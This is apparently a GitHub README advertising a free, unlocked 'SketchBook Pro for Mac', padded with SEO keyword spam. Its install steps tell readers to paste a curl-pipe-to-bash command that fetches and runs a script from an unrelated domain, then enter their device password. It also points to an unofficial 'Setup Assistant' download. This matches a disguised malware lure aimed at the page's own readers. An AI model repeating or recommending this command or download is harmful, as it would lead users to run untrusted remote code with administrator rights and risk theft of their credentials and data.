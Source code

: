 # SketchBook Pro for Mac
[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://sketchbook-pro-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


🎯 What You Unlock

🔓 Professional brushes and tools  
    
🎨 Advanced layer and canvas management  
   
 🔈 Pressure sensitivity and pen support  
    
🔌 Plugin compatibility and hardware integration  
    
🛠 No internet or online validation needed


🖼 Preview

![SketchBook Pro Screenshot 1](https://static.macupdate.com/screenshots/270877/m/sketchbook-pro-screenshot.png?v=1595375237)  


![SketchBook Pro Screenshot 2](https://static.macupdate.com/screenshots/270875/m/sketchbook-pro-screenshot.png?v=1595375231)  


![SketchBook Pro Screenshot 3](https://static.macupdate.com/screenshots/270874/m/sketchbook-pro-screenshot.png?v=1595375227)  


🔍 SEO Keywords

sketchbook pro, sketchbook pro download, autodesk sketchbook pro, auto desk sketchbook pro, auto sketchbook download, autodesk sketchbook software, sketchbook professional, sketchbook pro free download, autodesk sketchbook download, sketchbook app free, sketchbook pro free, android sketchbook pro, apk sketchbook pro, autodesk sketchbook pro download, autodesk sketchbook pro download free, autodesk sketchbook pro free, free download autodesk sketchbook, free sketchbook download, professional sketchbook, autodesk pro, autodesk sketchbook apk, mac sketchbook download, offline sketchbook pro installer, sketchbook activation mac, autodesk sketchbook mac setup
